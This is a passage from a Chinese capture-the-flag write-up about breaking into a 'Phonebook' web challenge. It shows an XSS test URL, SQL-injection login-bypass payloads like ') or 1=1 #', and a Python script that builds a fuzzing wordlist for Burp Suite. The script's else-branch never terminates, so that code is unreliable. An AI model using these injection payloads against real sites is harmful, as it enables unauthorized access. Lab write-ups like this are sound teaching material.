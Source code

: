     * 将所有Get参数赋值给queryString

    * 如果不为空，就将其中的message参数放入网页代码中

    * 验证xss漏洞，构造请求http://ip:port/login?message=\<img src=%22https://www.baidu.com/img/flexible/logo/pc/result.png/\>

      ![image-20210512092925155](https://monkeydatabase.github.io/img/image-20210512092925155.png)

    * 但是这个xss漏洞并不能上传，只能在本地运行

12. 对路径进行访问发现

    ```shell
    # Phonebook页面 即后来发现的页面
    http://ip:port/964430b4cdd199af19b986eaf2193b21f32542d0/index.html
    # Login页面 即一开始看到的页面
    http://ip:port/964430b4cdd199af19b986eaf2193b21f32542d0/login.html
    ```

13. 因此不得不绕过登录

    * 使用`)`网站后端会报错，可能是将`)`替换为了`'`

    * 使用`) or 1=1 #`，仍然报错，如果按照替换的思路，首先`#`被替换为了其它字符，使用Burp Suite进行爆破尝试

      * Python生成爆破字典

        ```python
        import time
        import os
        
        # 33 127是可打印字符
        
        if __name__ == '__main__':
            filename = './Output/{}.txt'.format(time.strftime('%Y-%m-%d %H-%M-%S',time.localtime(time.time())))
            startNum, endNum = map(int, input("请输入起始值和结束值：").split())
            with open(filename, 'a') as file_object:
                print("开始输出")
                tempNum = startNum
                if tempNum < endNum:
                    while tempNum <= endNum:
                        file_object.write(") or 1=1 {}\n".format(chr(tempNum)))
                        tempNum = tempNum+1
                else:
                    while tempNum > endNum:
                        file_object.write("{}\n".format(chr(tempNum)))
                        tempNum = tempNum+1
            print("已输出到{}{}".format(os.path.abspath('.'), filename))
        ```

      * Burp Suite爆破，发现使用`%`时不报错，但是仍然认证失败，因此可能是等号也被转义了
